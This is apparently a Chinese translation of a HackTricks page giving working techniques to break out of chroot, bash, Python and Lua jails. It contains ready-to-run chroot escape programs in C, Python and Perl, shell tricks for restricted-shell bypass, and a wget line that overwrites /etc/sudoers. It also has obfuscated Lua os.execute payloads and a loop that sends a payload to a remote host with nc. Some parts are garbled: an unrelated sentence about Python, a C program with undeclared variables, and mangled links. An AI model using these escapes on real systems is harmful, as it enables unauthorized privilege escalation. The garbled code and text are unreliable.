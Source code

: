 # 从监狱中逃脱

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## **GTFOBins**

**在** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **中搜索是否可以执行任何具有 "Shell" 属性的二进制文件**

## Chroot 逃逸

来自 [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)：chroot 机制**并不旨在防御**来自**特权**（**root**）**用户**的故意篡改。在大多数系统中，chroot 上下文无法正确堆叠，具有足够权限的 chroot 程序**可能会执行第二次 chroot 以突破**。\
通常这意味着要逃脱，你需要在 chroot 内部是 root。

{% hint style="success" %}
**工具** [**chw00t**](https://github.com/earthquake/chw00t) 是为了滥用以下场景并从 `chroot` 中逃脱而创建的。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
如果你在 chroot 内部是**root**，你**可以逃脱**，通过创建**另一个 chroot**。这是因为两个 chroot 不能共存（在 Linux 中），所以如果你创建一个文件夹，然后在那个新文件夹上**创建一个新的 chroot**，而你**在外面**，你现在将**在新的 chroot 之外**，因此你将处于文件系统中。

这发生是因为通常 chroot 并不会将你的工作目录移动到指定的目录，所以你可以创建一个 chroot，但在它外面。
{% endhint %}

通常你不会在 chroot 监狱中找到 `chroot` 二进制文件，但你**可以编译、上传并执行**一个二进制文件：

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>  
Python 是一种广泛使用的高级编程语言，具有清晰的语法和强大的功能。  
</details>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>perl
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
这与之前的情况类似，但在这种情况下，**攻击者将当前目录的文件描述符存储起来**，然后**在一个新文件夹中创建 chroot**。最后，由于他在 chroot **外部**对该 **FD** 具有 **访问权限**，他访问它并 **逃脱**。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD 可以通过 Unix 域套接字传递，因此：

* 创建一个子进程（fork）
* 创建 UDS，以便父进程和子进程可以通信
* 在子进程中在不同的文件夹中运行 chroot
* 在父进程中，创建一个指向新子进程 chroot 之外的文件夹的 FD
* 使用 UDS 将该 FD 传递给子进程
* 子进程 chdir 到该 FD，因为它在其 chroot 之外，因此它将逃离监狱
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* 将根设备（/）挂载到 chroot 内的一个目录
* chroot 到该目录

这在 Linux 中是可能的
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* 将 procfs 挂载到 chroot 内的一个目录（如果尚未挂载）
* 查找具有不同根/cwd 条目的 pid，例如：/proc/1/root
* chroot 到该条目
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* 创建一个 Fork（子进程）并 chroot 到文件系统中更深的不同文件夹并在其上 CD
* 从父进程中，将子进程所在的文件夹移动到子进程 chroot 之前的文件夹
* 这个子进程将发现自己在 chroot 之外
{% endhint %}

### ptrace

{% hint style="warning" %}
* 以前用户可以从自己的进程调试自己的进程……但这在默认情况下不再可能
* 无论如何，如果可能的话，你可以 ptrace 进入一个进程并在其中执行 shellcode（[参见此示例](linux-capabilities.md#cap\_sys\_ptrace)）。
{% endhint %}

## Bash Jails

### Enumeration

获取有关监狱的信息：
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### 修改 PATH

检查您是否可以修改 PATH 环境变量
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### 使用 vim
```bash
:set shell=/bin/sh
:shell
```
### 创建脚本

检查您是否可以创建一个以 _/bin/bash_ 为内容的可执行文件
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### 通过 SSH 获取 bash

如果您通过 ssh 访问，可以使用这个技巧来执行 bash shell：
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 声明
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

您可以覆盖例如 sudoers 文件
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### 其他技巧

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**这个页面也可能很有趣：**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python 监狱

关于从 python 监狱中逃脱的技巧在以下页面：

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua 监狱

在这个页面中，您可以找到您在 lua 中可以访问的全局函数：[https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**带命令执行的 Eval：**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
一些技巧来**调用库的函数而不使用点**：
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
列举库的函数：
```bash
for k,v in pairs(string) do print(k,v) end
```
注意，每次在**不同的lua环境中执行前面的单行代码时，函数的顺序会改变**。因此，如果您需要执行一个特定的函数，可以通过加载不同的lua环境并调用le库的第一个函数来进行暴力攻击：
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**获取交互式 lua shell**: 如果你在一个受限的 lua shell 中，可以通过调用获取一个新的 lua shell（希望是无限的）:
```bash
debug.debug()
```
## 参考文献

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (幻灯片: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
